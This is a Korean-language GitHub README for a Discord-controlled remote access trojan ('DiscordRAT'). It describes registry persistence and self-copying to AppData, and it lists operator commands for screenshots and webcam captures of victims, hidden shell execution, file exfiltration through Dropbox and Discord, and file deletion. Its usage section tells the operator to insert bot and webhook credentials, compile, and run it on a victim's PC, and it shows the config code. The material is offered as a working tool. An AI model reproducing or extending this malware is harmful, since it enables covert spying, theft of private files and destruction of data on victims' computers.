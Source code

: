 ![venom](https://capsule-render.vercel.app/api?type=venom&height=200&text=DiscordRAT&fontSize=70&color=0:8871e5,100:b678c4&stroke=b678c4)

Discord.NET 을 이용한 reverse shell
## How It Works
프로그램을 실행할시 [init](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/init.cs) 실행(레지스트리 등록 appdata에 악성코드 복사본 등록(injection))
이미 악성코드가 실행중이면 중단하고 아니라면 봇 작동 후
명령어가 들어올시 [Command.command()](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/search.cs) 실행

public 명령어입니다.
```
all                                            모든 피해자 목록 조회
all_screenshot                                 모든 피해자 화면 가져오기
all_camshot                                    모든 피해자 캠 가져오기
all_shell                                      모든 피해자에게 shell 명령어 실행
```
private 명령어입니다.
```
(피해자의 아이피) kill                          Discrod_RAT을 종료시킴
(피해자의 아이피) delet                         모든 Discrod_RAT을 삭제
(피해자의 아이피) screenshot                    피해자의 화면을 가져옵니다.
(피해자의 아이피) camshot                       피해자의 캠을 가져옵니다.
(피해자의 아이피) open (파일경로)                피해자 컴퓨터 내부에있는 특정 파일을 엽니다. (shellexecute 사용)
(피해자의 아이피) messagebox (띄울 메시지)       피해자 컴퓨터에 메시지 박스를 띄웁니다.
(피해자의 아이피) messagebox_que (띄울 메시지)   피해자 컴퓨터에 메시지 박스를 띄웁니다.(Question 사용)
(피해자의 아이피) messagebox_error (띄울 메시지) 피해자 컴퓨터에 메시지 박스를 띄웁니다.(Error 사용)
(피해자의 아이피) dropbox_download (파일경로)    dropbox api를 사용해 피해자 컴퓨터의 내부파일을 가져옵니다.(무료버전 사용시 최대 2GB크기 까지 가능)
(피해자의 아이피) dropbox_upload (파일경로)      dropbox api를 사용해 피해자 컴퓨터에 파일을 업로드 시킵니다.(무료버전 사용시 최대 2GB크기 까지 가능)
(피해자의 아이피) deletdir (폴더경로)            디렉토리를 삭제합니다. (하위목록까지 전부삭제)
(피해자의 아이피) deletfile (파일경로)           파일을 삭제합니다.
(피해자의 아이피) dir (폴더경로)                 디렉토리 내부의 파일목록을 조회합니다. cmd의 dir과 똑같음
(피해자의 아이피) shell (실행할 명령어)          피해자 컴퓨터에서 shell을 사용(콘솔창은 안뜸)
(피해자의 아이피) downloadfile (파일경로)        discord attachments를 사용해서 파일 다운로드(최대 25MB까지 다운가능 니트로 사용시 더 큰파일도 가능)
(피해자의 아이피) uploadfile (파일경로)          discord attachments를 사용해서 피해컴퓨터에 특정 파일 다운(최대 25MB까지 다운가능 니트로 사용시 더 큰파일도 가능)
```
## Usage
[필수값](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/value.cs)을 수정해 봇,후크와 연동한후 컴파일 그리고 피해자PC에서 실행시키세요
```C# 8
private static GET GET = new GET();
// 본 프로그램의 이름
public string filename = "";
// 실제 게임의 위치
public string path = "";
// 프로그램 버전
public string version = " | 2.23v";
// 디스코드 봇 토큰
public string bot_token = "";
// 웹훅링크
public string EndPoint =
@"";
// ip
public string ip = GET.ip();
// 드랍박스 연결
public DropboxClient dropbox_ = new DropboxClient(
                                      oauth2RefreshToken: "",
                                      appKey: "",
                                      appSecret: "");
// 웹에 post를 보내기위한 HttpClient선언
public HttpClient client_ = new HttpClient();
```
